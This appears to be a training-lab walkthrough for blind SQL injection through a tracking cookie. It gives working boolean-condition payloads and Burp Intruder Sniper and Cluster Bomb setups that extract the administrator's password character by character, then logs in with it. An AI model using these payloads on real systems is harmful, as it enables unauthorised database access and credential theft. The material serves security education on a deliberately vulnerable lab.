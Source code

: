 # Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:
![Welcome back](images/Blind_SQL_injection_with_conditional_responses_0.png)

From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------ |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_1.png) | ![Settings](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_3.png) |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------ |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_1.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_2.png) |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.
![Solved](images/Blind_SQL_injection_with_conditional_responses_1.png)

### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_0.png) | ![Payload Numbers](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_1.png) | ![Payload Brute Forcer](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_3.png) |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._